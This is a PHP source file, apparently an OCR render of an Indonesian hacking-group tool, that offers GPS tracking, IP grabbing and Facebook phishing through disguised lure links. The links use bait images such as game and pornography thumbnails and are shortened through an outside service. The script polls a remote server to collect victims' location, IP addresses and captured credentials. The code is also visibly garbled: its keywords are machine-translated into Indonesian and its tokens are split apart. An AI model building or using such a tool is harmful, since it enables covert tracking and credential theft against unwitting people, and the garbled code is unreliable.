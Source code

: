 <? php 
/ *
	Penulis: Brilly4n
	Tim: {IndoSec}
	Alat: Pengumpulan Informasi
	Fanspage: https://www.facebook.com/IndoSecOfficial
				{OpenSourceCode}
* /
/ *
	Konfigurasi
* /
$ version  	=  ' 1.0.2 ' ;
$ random  	=  rand ( 123456789 , 6 );
$ file  		=  ' infogath_update.php ' ;
// $ url = 'http: // localhost / tools /';
$ url  		=  ' https://komunitastahajjudberantai.or.id/q/ ' ;
error_reporting ( 0 );
// cek pembaruan
fungsi  diperbarui ( $ versi , $ file )
{
	$ cek  =  file_get_contents ( ' https://brad.josebernard.com/index/version.lst ' );
	$ cek2  =  meledak ( " \ n " , $ cek );
	if ( $ cek2 [ 0 ] ==  $ version ) {
		echo  " \ n [-] Tidak Ada Pembaruan \ n \ n " ;
	} lain {
		echo  " \ n [+] Diperbarui ke versi $ versi \ n [+] $ git clone https://github.com/indosecid/gps_track " ;
	}
}
// cek koneksi
echo  " \ n [+] Mengecek Koneksi Internet ... " ;
// $ cek = get_headers ('https://facebook.com');
// if (! preg_match ('/ 200 /', $ cek [0])) {
	
//  	echo "\ n [+] Koneksi Stabil";
//  	echo "\ n [+] Pembaruan ...";
//  	diperbarui ($ versi, $ file);
// } else {
//  	echo "\ n \ n [-] Tidak Ada Koneksi Internet: '(\ n \ n";
//  	keluar ();
// }
fungsi  tampil ( $ versi )
{
	gema  "
  ___ __ ____ _ _     
| _ _ | _ __ / _ | ___ / ___ | __ _ | | _ | | __  
  | || '_ \ | | _ / _ \ | | _ / _` | __ | '_ \
  | || | | | _ | (_) | | _ | | (_ | | | _ | | |
| ___ | _ | | _ | _ | \ ___ / \ ____ | \ __, _ | \ __ | _ | | _ | v. " . $ versi . "
       => Pengumpulan Informasi <=                                        
Penulis: Brilly4n - {IndoSec}
Hubungi: timtam.rpl@gmail.com
FansPage: https://www.facebook.com/IndoSecOfficial/
	--GPS --IP --PHISING --exit
> " ;
}
fungsi  proses ( $ acak )
{
	echo  " \ n \ n [+] Tautan Dibuat \ n [+] Pelacakan ID: $ acak  \ n [+] Parameter =>:? halaman = " ;
}
function  short_dom ( $ url )
{	
	
	$ ch  =  curl_init ();
	curl_setopt ( $ ch , CURLOPT_URL , ' http://q.sidia.id/z.php ' );
	curl_setopt ( $ ch , CURLOPT_RETURNTRANSFER , 1 );
	curl_setopt ( $ ch , CURLOPT_POSTFIELDS , " url = $ urls " );
	$ x  =  curl_exec ( $ ch );
	echo  $ x ;
}
fungsi  buat_link ( $ input , $ random , $ url , $ id , $ img )
{	
	$  imgs =  base64_encode ( $ img );
	$ random2  =  base64_encode ( $ random );
	$ url  =  $ url . ' home.php? redirect = ' . $ input . ' & halaman = ' . $ random2 . ' & id = ' . $ id . ' & img = ' . $ imgs ;
	
	$ domen_asli  =  base64_encode ( $ urls );
	
	$ url  =  ' Salin Tautan => ' ;
	echo  " \ n \ n [+] $ url " ;
	short_dom ( $ domen_asli );
}
 pengunduhan fungsi ( $ acak , $ url , $ opt , $ port )
{
	echo  file_get_contents ( $ url  .  ' get / '  .  ' GPS_GET ' . $ random . ' .html ' );
	$ curl  =  curl_init ();
	curl_setopt ( $ curl , CURLOPT_URL , $ url . ' gps / ' . $ opt . ' _TRACK_ ' . $ random . ' .html ' );
	curl_setopt ( $ curl , CURLOPT_RETURNTRANSFER , true );
	curl_setopt ( $ curl , CURLOPT_HEADER , false );
	$ data  =  curl_exec ( $ curl );
	curl_close ( $ curl );
	echo  " \ n [+] Mengunduh " ;
	sentuh ( $ opt . ' _TRACK_ ' . $ acak . ' .php ' );
	$ fp  =  fopen ( $ opt . ' _TRACK_ ' . $ random . ' .php ' , ' w ' );
	fwrite ( $ fp , $ data );
	fclose ( $ fp );
	echo  " \ n [+] Membuka File ... " ;
	echo  " \ n \ n [+] Buka Browser =>: http: // localhost: " . $ port ;
	
	// jalankan di localhost
	sistem ( ' php -S localhost: ' . $ port . '  ' . $ opt . ' _TRACK_ ' . $ random . ' .php ' );
}
// phising
fungsi  buat_phising ( $ opsi , $ random , $ url )
{	
	tidur ( 1 );
	$  urls =  base64_encode ( $ url . " welcome.php? opsi = " . base64_encode ( $ opsi ) . " & q = " . $ random );
	echo  " \ n [+] Siap Tautan:> " ;
	short_dom ( $ url );
	// litening
	echo  " \ n \ n [+] Target Mendengarkan < " ;
	$ a  =  1 ; $ z = 1 ;
	untuk ( $ a ; $ a  <  9999 ; $ a ++ ) {
		
		$ cek  =  get_headers ( $ url . " phising / phising_ " . $ random . " .txt " );
		// dengarkan
		if ( ! preg_match ( "/ 200 /" , $ cek [ 0 ])) {
			gema  " = " ;
		} lain {
			$ ambil  =  file_get_contents ( $ url . " phising / phising_ " . $ random . " .txt " );
			
			preg_match_all ( "/ END /" , $ file , $ a );
			$ b  =  count ( $ a [ 0 ]);
			untuk ( $ z ; $ z  <  9999 ; $ z ++ ) {
				$ ambil  =  file_get_contents ( $ url . " phising / phising_ " . $ random . " .txt " );
					
				preg_match_all ( "/ END /" , $ file , $ o );
				$ q  =  count ( $ o [ 0 ]);
				$ r  =  $ q  +  1 ;
				gema  " > \ n [+] " .  $ r  . " Target Di Dapatkan! \ N " ;
				echo  " [+] Membuat File \ n \ n " ;
				$ filesss  =  " phising_ " . $ acak . " .txt " ;
				
				$ o  =  fopen ( $ filesss , ' a ' );
				fwrite ( $ o , $ ambil );
				fclose ( $ o );
				echo  $ ambil . " \ n " ;
				keluar ();
			}
		}
		tidur ( 3 );
	}
}
tampil ( $ version );
$ pilih  =  trim ( fgets ( STDIN ));
if ( $ pilih  ==  ' --GPS '  ||  $ pilih  ==  ' --gps ' ) {
	proses ( $ acak );
	$ input  =  trim ( fgets ( STDIN ));
	// atur port
	echo  " [+] Setel PORT =>: " ;
	$ port  =  trim ( fgets ( STDIN ));
	if ( is_numeric ( $ port )) {
		echo  " \ n (1) Youtube (2) PUBG (3) FreeFire (4) Anime (5) Bokep (6) Kustom? \ n " ;
		echo  " [+] Gunakan Gambar =>: " ;
		$ opsi_img  =  trim ( fgets ( STDIN ));
		beralih ( $ opsi_img ) {
			huruf  ' 1 ' :
				$ img  =  ' https://upload.wikimedia.org/wikipedia/commons/thumb/e/e1/Logo_of_YouTube_%282015-2017%29.svg/1280px--Logo_of_YouTube_%282015-2017%29.svg.png ' ;
				istirahat ;
			huruf  ' 2 ' :
				$ img  =  ' https://res.cloudinary.com/teepublic/image/private/s---xiJeC7t--/t_Preview/b_rgb:191919,c_limit,f_jpg,h_630,q_90,w_630/v1535164327/produksi/design/ 3064946_2000.jpg ' ;
				istirahat ;
			huruf  ' 3 ' :
				$ img  =  ' http://cm1.narvii.com/6653/1c97d673ada4bcca12be337f6909a801c282eaad_00.jpg ' ;
				istirahat ;
			huruf  ' 4 ' :
				$ img  =  ' https://ih0.redbubble.net/image.397474907.7403/mp,550x550,matte,,ffffff,t.3u1...jpg ' ;
				istirahat ;
			huruf  ' 5 ' :
				$ img  =  ' https://chinadailymail.files.wordpress.com/2014/04/22-japanese-girl.jpg?w=640 ' ;
				istirahat ;
			huruf  ' 6 ' :
				echo  " [+] URL Gambar =>: " ;
				$ img  =  trim ( fgets ( STDIN ));
				istirahat ;
			default :
				keluar ();
			istirahat ;
		}
		buat_link ( $ input , $ random , $ url , 1 , $ img );
		// litening
		echo  " \ n \ n [+] Target Mendengarkan < " ;
		$ a  =  1 ;
		untuk ( $ a ; $ a  <  9999 ; $ a ++ ) {
			
			$ cek  =  get_headers ( $ url . ' gps / GPS_TRACK_ ' . $ random . ' .html ' );
			// dengarkan
			if ( ! preg_match ( "/ 200 /" , $ cek [ 0 ])) {
				gema  " = " ;
			} lain {
				echo  " > \ n \ n [+] Target TERTYPU 200 OK " ;
				istirahat ;
			}
			tidur ( 3 );
		}
		// unduh
		unduh ( $ acak , $ url , ' GPS ' , $ port );	
	} lain {
		echo  " \ n \ n [-] PORT Harus Angka: '( \ n \ n " ;
	}
} elseif ( $ pilih  ==  ' --IP '  ||  $ pilih  ==  ' --ip ' ) {
	proses ( $ acak );
	$ input  =  trim ( fgets ( STDIN ));
	echo  " \ n (1) Youtube (2) PUBG (3) FreeFire (4) Anime (5) Bokep (6) Kustom? \ n " ;
	echo  " [+] Gunakan Gambar =>: " ;
	$ opsi_img  =  trim ( fgets ( STDIN ));
	beralih ( $ opsi_img ) {
		huruf  ' 1 ' :
			$ img  =  ' https://upload.wikimedia.org/wikipedia/commons/thumb/e/e1/Logo_of_YouTube_%282015-2017%29.svg/1280px-Logo_of_YouTube_%282015-2017%29.svg.png ' ;
			istirahat ;
		huruf  ' 2 ' :
			$ img  =  ' https://res.cloudinary.com/teepublic/image/private/s---xiJeC7t--/t_Preview/b_rgb:191919,c_limit,f_jpg,h_630,q_90,w_630/v1535164327/produksi/design/ 3064946_0.jpg ' ;
			istirahat ;
		huruf  ' 3 ' :
			$ img  =  ' http://cm1.narvii.com/6653/1c97d673ada4bcca12be337f6909a801c282eaad_00.jpg ' ;
			istirahat ;
		huruf  ' 4 ' :
			$ img  =  ' https://ih0.redbubble.net/image.397474907.7403/mp,550x550,matte,ffffff,t.3u1.jpg ' ;
			istirahat ;
		huruf  ' 5 ' :
			$ img  =  ' https://chinadailymail.files.wordpress.com/2014/04/22-japanese-girl.jpg?w=640 ' ;
			istirahat ;
		huruf  ' 6 ' :
			echo  " [+] URL Gambar =>: " ;
			$ img  =  trim ( fgets ( STDIN ));
			istirahat ;
		default :
			keluar ();
		istirahat ;
	}
	buat_link ( $ input , $ random , $ url , 2 , $ img );
	// litening
	echo  " \ n \ n [+] Target Mendengarkan < " ;
	$ a  =  1 ;
	untuk ( $ a ; $ a  <  9999 ; $ a ++ ) {
		
		$ cek  =  get_headers ( $ url . ' ip / IP_GET ' . $ random . ' .html ' );
		// dengarkan
		if ( ! preg_match ( "/ 200 /" , $ cek [ 0 ])) {
			gema  " = " ;
		} lain {
			gema  " > " ;
			$ file  =  file_get_contents ( $ url . ' ip / IP_GET ' . $ random . ' .html ' );
			echo  $ file ;
			istirahat ;
		}
		tidur ( 3 );
	}
} elseif ( $ pilih  ==  ' --PHISING '  ||  $ pilih  ==  ' --phising ' ) {
	
	echo  " \ n (1). Facebook \ n [+] Masih di Update Gan !!! " ;
	echo  " \ n \ n diterbitkan Pilihan:> " ;
	$ opsi  =  trim ( fgets ( STDIN ));
	if ( $ opsi  ==  1 ) {
		// FB
		echo  " \ n \ n [+] ID Anda: "  .  $ acak  .  " \ n [+] Tautan Buatan: Memuat ... " ;
		buat_phising ( $ opsi , $ random , $ url );
	}
} elseif ( $ pilih  ==  ' --exit ' ) {
	keluar ();
} lain {
	echo  " \ n \ n [-] Kode Kesalahan: '( \ n \ n " ;
	keluar ();
}
? >
